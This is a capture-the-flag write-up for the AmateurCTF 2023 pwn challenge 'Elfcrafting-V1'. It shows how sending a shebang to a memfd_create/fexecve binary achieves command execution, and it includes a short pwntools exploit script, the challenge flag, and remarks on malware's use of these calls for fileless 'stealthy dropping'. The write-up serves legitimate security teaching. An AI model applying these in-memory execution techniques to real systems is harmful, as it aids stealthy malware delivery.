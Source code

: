 ```yaml
---
title: AmateurCTF '23 - Pwn - Elfcrafting-V1
date: '2023-07-18'
tags:
  [
    'ctf',
    'pwn',
    'amateurctf',
    'amateurctf23',
    'writeup',
    'elf',
    'elfcrafting-v1',
    'memfd_create',
    'fexecve',
  ]
draft: false
summary: Sending a shebang to let fexecve execute a command for us and get the flag.
---
```


## Challenge Description

How well do you understand the ELF file format?

Author: unvariant

Connection info: `nc amt.rs 31178`

## Solution

We were provided with a binary and a libc file. Let's first analyze the binary using `checksec` and `file`:

![chal](/static/writeups/amateurctf2023/pwn/ec1.png)

Now, let's analyze this binary in ghidra and find all the functions

![chal](/static/writeups/amateurctf2023/pwn/ec1-1.png)

Well, there's only the main function. I've cleaned up the code in ghidra:

```c:main
int main(int param_1,char **param_2,char **param_3) {
  int fd;
  ulong ret;
  long in_FS_OFFSET;
  char buffer [40];
  long canary;

  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("I\'m sure you all enjoy doing shellcode golf problems.");
  puts("But have you ever tried ELF golfing?");
  puts("Have fun!");
  fd = memfd_create("golf",0);
  if (fd < 0) {
    perror("failed to execute fd = memfd_create(\"golf\", 0)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  ret = read(0,buffer,32);
  if ((int)ret < 0) {
    perror("failed to execute ok = read(0, buffer, 32)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("read %d bytes from stdin\n",ret & 0xffffffff);
  ret = write(fd,buffer,(long)(int)ret);
  if ((int)ret < 0) {
    perror("failed to execute ok = write(fd, buffer, ok)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("wrote %d bytes to file\n",ret & 0xffffffff);
  fd = fexecve(fd,param_2,param_3);
  if (fd < 0) {
    perror("failed to execute fexecve(fd, argv, envp)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

This code consists of two functions that I had of heard of before during my malware analysis days and were always deemed pretty `sus`.

- memfd_create
- fexecve

According to the man page's of both:

> memfd_create() creates an anonymous file and returns a file descriptor that refers to it. The file behaves like a regular file, and so can be modified, truncated, memory-mapped, and so on. However, unlike a regular file, it lives in RAM and has a volatile backing storage. Once all references to the file are dropped, it is automatically released.

> fexecve() executes the program referred to by the file descriptor fd with command-line arguments in argv, and with environment variables in envp. The file descriptor fd must refer to an open file. The file offset of the open file is set to the beginning of the file (see lseek(2)) before fexecve() loads the program, so that the program sees the file contents as if reading from the file for the first time.

So, we can see that `memfd_create` creates a file in memory and `fexecve` executes a program with the file descriptor as the first argument. This means that we can create a file in memory and then execute it using `fexecve`. This concept is often used in malware's to execute shellcode in memory and for `stealthy` dropping. There are a lot of posts explaining the concept in detail, I'll link some of them at the end of the [writeup](#references).

Now, the main caveat is, what ever's being written to `golf` fd, is being read from the user, so we control it. The buffer is `32` bytes long meaning we can simply try and pass something into it and it will work. So, let's try and pass a simple `/bin/bash` into it and see what happens:

![chal](/static/writeups/amateurctf2023/pwn/ec1-2.png)

Well, we can see that it's trying to execute the literal string `/bin/bash` which obviously won't work and hence gives the `exec format error` error. So, the fix? We need to pass a `shebang` into the file descriptor as that literal string will actually execute the command that we're trying to execute.

> Shebang is the character sequence consisting of the characters number sign and exclamation mark (#!) at the beginning of a script. It is also called sha-bang, hashbang, pound-bang, or hash-pling.

So, let's try and pass a bash-shebang into the file descriptor and see what happens:

![chal](/static/writeups/amateurctf2023/pwn/ec1-3.png)

Okay, so this proves that we were successful in executing the command. Now, let's try and run `cat` and get the flag:

![chal](/static/writeups/amateurctf2023/pwn/ec1-4.png)

Well, that was pretty straight forward. Let's connect to the remote and get the flag

![chal](/static/writeups/amateurctf2023/pwn/ec1-5.png)

Writing a basic `exploit.py` for this:

```python:exploit.py
from pwn import *
import re

io = remote('amt.rs', 31178)
io.sendlineafter(b"fun!\n", b"#!/bin/cat flag.txt")
buf = io.recvall().decode()
flag = re.findall('amateursCTF{.*?}', buf)[0]
info(f"Flag: {flag}")
```

![chal](/static/writeups/amateurctf2023/pwn/ec1-6.png)

And, we get the flag:
`amateursCTF{i_th1nk_i_f0rg0t_about_sh3bangs_aaaaaargh}`

> NOTE: The challenge heavily used the word `golf` which relates to `binary-golfing`, we'll look into that in elfcrafting-v2

## References

[Linux-Based-IPC-Injection](https://www.aon.com/cyber-solutions/aon_cyber_labs/linux-based-inter-process-code-injection-without-ptrace2/)

[In-Memory-ELF-Execution](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html)

[Super-Stealthy-Droppers](https://0x00sec.org/t/super-stealthy-droppers/3715)

[Stackoverflow-Question](https://stackoverflow.com/questions/63208333/using-memfd-create-and-fexecve-to-run-elf-from-memory)
